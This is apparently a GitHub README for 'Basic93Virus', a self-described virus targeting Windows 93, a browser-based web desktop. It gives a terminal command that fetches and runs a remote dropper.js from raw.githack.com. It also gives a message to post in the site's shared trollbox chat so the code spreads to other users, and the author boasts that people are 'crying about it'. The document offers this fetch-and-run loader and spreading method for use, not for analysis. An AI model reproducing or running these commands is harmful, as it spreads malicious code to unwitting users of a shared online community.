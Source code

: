 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
YES apparently. Never seen it for myself but some people are crying about it now ._.

## Why does it sometimes take long to update
githack is not ok    
p.s. james wasnt here
